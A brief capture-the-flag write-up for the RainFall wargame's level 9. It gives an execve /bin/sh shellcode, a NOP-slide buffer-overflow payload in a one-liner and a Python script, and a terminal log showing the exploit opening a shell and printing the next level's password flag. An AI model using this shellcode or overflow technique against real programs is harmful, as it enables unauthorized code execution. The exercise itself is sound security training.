 

#### python scription


```shell
$(python -c 'print "A" * 87 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "\x08\x04\xa0\x7c"[::-1] + "\x08\x04\xa0\x0c"[::-1]')
```

```py
import struct

shellcode = "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" # length : 21

nopslide =  "\x90" * 87 

pointerAddress = struct.pack("I", 0x804a07c)
jumpAddressToNopsLide = struct.pack("I", 0x804a00c)

payload = nopslide + shellcode + pointerAddress + jumpAddressToNopsLide

print(payload)

```

```
level9@RainFall:~$ python /tmp/script.py > /tmp/exploit
level9@RainFall:~$ ./level9 $(cat /tmp/exploit)
$ pwd
/home/user/level9
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
$ 

```
Flag : `f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728`